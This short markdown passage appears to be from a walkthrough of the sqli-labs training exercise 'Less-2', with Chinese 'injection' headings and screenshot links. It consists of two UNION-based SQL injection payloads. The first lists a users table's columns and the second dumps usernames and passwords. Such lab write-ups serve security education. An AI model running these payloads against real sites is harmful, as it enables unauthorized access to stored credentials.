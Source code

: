 

+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
~~~

![Less-2_10](./img/Less-2_10.PNG)



+ 注入

~~~ shell
?id=-1 union select 1,2,group_concat(username, id, password) from users
~~~

![Less-2_11](./img/Less-2_11.PNG)